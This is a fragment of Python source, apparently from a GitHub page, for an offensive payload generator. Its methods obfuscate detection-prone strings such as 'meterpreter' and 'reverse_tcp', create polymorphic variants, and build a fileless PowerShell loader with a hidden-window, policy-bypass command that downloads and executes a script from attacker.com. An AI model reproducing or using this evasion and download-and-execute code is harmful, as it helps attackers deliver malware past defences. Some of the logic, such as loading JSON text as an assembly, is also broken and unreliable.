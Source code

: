```python

        if isinstance(payload, dict):
            payload_str = json.dumps(payload)
        else:
            payload_str = str(payload)

        # Replace common strings with obfuscated versions
        sensitive_strings = ['meterpreter', 'reverse_tcp', 'bind_tcp', 'exploit', 'payload']

        for s in sensitive_strings:
            if s in payload_str:
                obfuscated = ''.join([f'chr({ord(c)})' for c in s])
                obfuscated_strings[s] = f'({obfuscated})'
                payload_str = payload_str.replace(s, f'{{obfuscated_strings["{s}"]}}')

        return {
            'obfuscated_payload': payload_str,
            'deobfuscation_map': obfuscated_strings
        }

    def generate_polymorphic_payload(self, payload):
        """Generate polymorphic payload variants"""
        variants = []

        for i in range(5):  # Generate 5 variants
            # Add random noop instructions
            noop_instructions = []
            for _ in range(random.randint(10, 50)):
                noop_instructions.append(f'nop_{random.randint(1000, 9999)} = {random.randint(1, 100)}')

            variant = {
                'variant_id': i + 1,
                'noop_instructions': noop_instructions,
                'base_payload': payload,
                'execution_delay': random.randint(1, 10)
            }

            variants.append(variant)

        return {'polymorphic_variants': variants}

    def generate_fileless_payload(self, payload):
        """Generate fileless payload execution"""
        powershell_payload = f'''
$payload = @"
{json.dumps(payload)}
"@

# Execute in memory
$bytes = [System.Text.Encoding]::UTF8.GetBytes($payload)
$assembly = [System.Reflection.Assembly]::Load($bytes)
$assembly.EntryPoint.Invoke($null, @(,[string[]]@()))
'''

        return {
            'execution_method': 'powershell',
            'payload_script': powershell_payload,
            'execution_command': 'powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "IEX((New-Object Net.WebClient).DownloadString(\'http://attacker.com/payload.ps1\'))"'
        }

class MetasploitComplianceFramework:
```